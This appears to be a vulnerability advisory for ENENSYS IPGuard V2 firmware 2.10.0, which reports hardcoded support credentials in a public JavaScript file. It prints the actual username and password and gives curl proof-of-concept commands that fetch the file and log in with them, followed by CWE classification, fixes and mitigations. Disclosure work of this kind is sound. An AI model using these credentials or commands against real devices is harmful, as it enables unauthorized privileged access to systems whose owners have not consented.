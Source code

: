 # ENENSYS IPGuard V2 - Information Disclosure Vulnerability

## Description

ENENSYS IPGuard V2 firmware version 2.10.0 contains hardcoded support credentials exposed in the `/scripts/app-d306eced71.js` JavaScript file. An unauthenticated attacker can extract the `NN6support` username and `:jvtreo!:` password to gain unauthorized privileged access to the system, potentially leading to a full system compromise.

## Vendor Information

- **Vendor:** ENENSYS Technologies  
- **Vendor Homepage:** [ENENSYS](https://www.enensys.com/)

## Affected Product(s)/Code Base

- **Product:** ENENSYS IPGuard V2  
- **Firmware Version:** 2.10.0

## Vulnerability Type

- **Information Disclosure Leading to Unauthorized Access**  
- **Hardcoded Credentials Exposure**

## Vulnerable Endpoint(s)

- `/scripts/app-d306eced71.js`

## Exploit Summary

The ENENSYS IPGuard V2 device running firmware version 2.10.0 is vulnerable to information disclosure due to the inclusion of hardcoded support credentials in a publicly accessible JavaScript file. This allows an unauthenticated remote attacker to obtain privileged login credentials and gain unauthorized access to the system.

### Impact

- Full unauthorized access to the administrative interface or privileged support functions  
- Potential for complete system compromise  
- Exposure of internal credentials to any user with access to the web interface

## Proof of Concept (PoC)

### Step 1: Visit Vulnerable Endpoint
Access the JavaScript file hosted on the target device:

```bash
curl http://<target-ip>/scripts/app-d306eced71.js
```
### Step 2: Search for `open_session` Keyword 
Search for the following string in the script file (around line 7505):
```plaintext
"<open_session><login>"
```
**Example:**
```plaintext
"<open_session><login>" + 'NN6support' + "</login><password>" + ':jvtreo!:' + "</password></open_session>"
```
### Step 3: Use Extracted Credentials to Authenticate 
Now that the attacker has the support username and password: 
* **Username:** `NN6support` 
* **Password:** `:jvtreo!:`
They can use this to authenticate to the device via the API, SOAP interface, or web admin panel, depending on how authentication is handled.

#### Exploit Example:
Assuming the system accepts XML-based login (as suggested by the `open_session` string):
```bash
curl -X POST http://<target-ip>/api/session \
-H "Content-Type: application/xml" \
--data '<open_session><login>NN6support</login><password>:jvtreo!:</password></open_session>'
```
If successful, the attacker is logged in as a privileged user.

---

## **PoC Video**  

https://github.com/user-attachments/assets/2b4c2ddd-30fc-4833-89e2-ee029f5d0b14

---

# Vulnerability Details

## Vulnerability Classification

- **CWE-798** – Use of Hard-coded Credentials  
- **CWE-200** – Exposure of Sensitive Information to Unauthorized Actors  
- **CWE-522** – Insufficiently Protected Credentials

## Suggested Fixes

- **Remove** any hardcoded credentials from frontend JavaScript code.  
- **Implement** proper credential storage and server-side authentication handling.  
- **Enforce** Role-Based Access Control (RBAC) and restrict backend access based on origin and user role.  
- **Rotate** exposed credentials and release a firmware patch.  
- **Add** server-side logging and alerts for support-level logins.

## Impact Type

- **Unauthorized Access**  
- **Privilege Escalation**  
- **System Takeover**

## Mitigation & Workaround

- **Temporarily restrict access** to the `/scripts/` directory via web server configuration.  
- **Immediately rotate** or disable `NN6support` credentials across all deployed units.  
- **Apply** a Web Application Firewall (WAF) to detect and block suspicious access to the vulnerable script.
